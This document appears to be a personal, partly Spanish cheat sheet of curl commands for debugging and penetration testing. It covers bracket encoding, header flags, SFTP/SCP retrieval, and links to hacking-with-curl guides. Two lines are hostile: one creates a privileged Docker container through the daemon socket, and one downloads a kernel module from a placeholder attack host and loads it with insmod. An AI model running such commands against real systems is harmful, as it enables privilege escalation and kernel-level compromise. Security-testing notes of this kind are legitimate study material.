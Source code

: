 # Curl


curl -v (--verbose)

escapar los corchetes con %5B para [ y %5D para ]

Incorrecto

    curl -v http://internal-api-organization.abc/king/prod/alertas/[Flaco] Read ssh information/escalation-policies  

Correcto

    curl -v http://internal-api-organization.abc/king/prod/alert-types/%5BFlaco%5D%20Read%20ssh%20information/escalation-policies


Se pueden ver cabeceras

    X-Content-Type-Options: nosniff
    X-Request-ID:
    X-Frame-Options: DENY
    X-XSS-Protection: 1; mode=block
    X-Nginx-Host:
    X-Nginx-Pool:
    X-Nginx-UpstreamHost:
    X-Upstream-Server: envoy


Incluir encabezados en la respuesta

    curl -i (Incluir encabezados en la respuesta)


Mostrar el tiempo de conexión y otras métricas con -w


https://gist.github.com/subfuzion/08c5d85437d5d4f00e58




    curl --unix-socket $SOCKPATH -d '{"Image":"bad", "Privileged":"true"}' -H 'Content-Type: application/json' 0/containers/create

    curl -O exploit.delivery/bad.ko && insmod bad.ko


    Get a file from an SSH server using SFTP:

    curl -u username sftp://example.com/etc/issue
    Get a file from an SSH server using SCP using a private key (not password-protected) to authenticate:

    curl -u username: --key ~/.ssh/id_rsa scp://example.com/~/file.txt
    Get a file from an SSH server using SCP using a private key (password-protected) to authenticate:

    curl -u username: --key ~/.ssh/id_rsa --pass private_key_password
    scp://example.com/~/file.txt

    curl -A 'Mozilla/3.0 (Win95; I)' http://www.bank.example.com/


Reference

    https://curl.se/docs/tutorial.html


    https://www.lazyhackers.in/posts/curl-command-cheat-sheet-for-penetration-testing


    https://github.com/frizb/HackingWithCurl


    https://cyber4hack.com/comando-curl-para-pentesting/


    $ curl --referer

    https://manasharsh.medium.com/hacking-with-curl-unleash-the-cli-beast-fdf13ec342cc

curl que carga archivo (bee)